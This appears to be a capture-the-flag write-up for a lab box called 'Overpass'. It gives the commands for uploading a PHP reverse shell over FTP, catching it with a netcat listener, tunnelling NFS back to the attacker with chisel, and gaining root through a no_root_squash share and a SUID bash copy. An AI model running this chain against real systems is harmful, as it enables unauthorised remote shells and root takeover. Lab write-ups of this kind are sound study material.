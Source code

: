 # Overpass

Found:

* ftp service
* ssh service

`ftp 10.10.10.62`

Connect with username:password

In Kali: `find .* -name php-reverse-shell.php`

In ftp: `put php-reverse-shell.php`

In web browser: http://10.10.10.62/php-reverse-shell.php

In Kali: `nc -lvnp 1234` and wait for response from web browser

Then use same credentials like to ftp: `su paradox`

Linpeas found interesting NFS share with the `no_root_squash`

Find port where NFS is running: `rpcinfo -p | grep nfs`

In Kali create folder: `mkdir nfs`

In paradox: `./chisel client 10.10.157.200:9002 R:2049:127.0.0.1:2049`

In Kali: `chisel server --reverse --port 9002`

In Kali: `nc 127.0.0.1 2049 -vvv`

In Kali: `sudo mount -t nfs 127.0.0.1: nfs`

In Kali: `cd nfs` and found everything from james&#x20;

In James: `cp /usr/bin/bash /home/james`

In Kali in nfs folder: `sudo chown root:root: bash`

In Kali in nfs folder: `sudo chmod +s bash`

In James: `./bash -p`





